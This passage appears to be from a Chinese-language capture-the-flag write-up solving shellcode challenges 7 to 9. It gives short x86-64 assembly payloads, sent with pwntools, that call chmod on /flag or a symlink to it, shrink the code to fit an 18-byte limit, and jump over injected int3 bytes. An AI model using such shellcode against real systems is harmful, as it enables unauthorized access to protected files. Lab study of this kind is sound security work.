 ### 7

关闭了 stdin，因此不能用上文 ORW 方法中的 multi-stage 方式读 shellcode 了；关闭了 stdout 和 stderr，因此没有回显。这里用的方法是通过 `chmod` 系统调用修改 `/flag` 权限，最后 `cat /flag` 即可。

```python
# chmod("/flag", 777)
sc = """
mov rax, 0x5a          # chmod
mov rbx, 0x67616c662f  # "/flag"
push rbx
mov rdi, rsp           # rdi -> "/flag" on stack
mov rsi, 0x1ff         # 777 -> 111 111 111
syscall
"""
p.send(asm(sc))
```

### 8

只能读 0x12 字节，因此要尽量缩短汇编代码的长度。由于 `/flag` 最终需要占 8 字节，需要 64 位寄存器存储，因此可以 `ln -s /flag a` 创建一个名为 `a` 的符号链接。权限方面也只需要 others 拥有读权限，因此设置为最小值 `4` 即可。最后根据情况缩减所使用的寄存器长度。

注意这里用 `mov bx, 0x61` 而不是 `bl`，是因为我们将 `bx` 推到栈上时有可能并没有遇到 0 字节，使得字符串 `a` 没能结尾。因此我们给 `bx` 赋值可以保证字符串以 0 字节结尾。

```python
# chmod("a", 4)
sc = """
mov al, 0x5a  # chmod
mov bx, 0x61  # "a"
push rbx
mov rdi, rsp  # rdi -> "a" on stack
mov sil, 4    # 4 -> 000 000 100
syscall
"""
p.send(asm(sc))
```

### 9

每 10 字节会插入 10 字节的 0xcc，也就是 `int 3`，题目提示我们要阻止这些 `int 3` 被执行，因此计算好字节数并 `jmp` 掉即可。

```python
# chmod("a", 4)
sc = """
mov al, 0x5a  # chmod
mov bx, 0x61  # "a"
push rbx
nop
jmp .L2
.rept 10
nop
.endr
.L2:
mov rdi, rsp  # rdi -> "a" on stack
mov sil, 4    # 4 -> 000 000 100
syscall
"""
p.send(asm(sc))
```
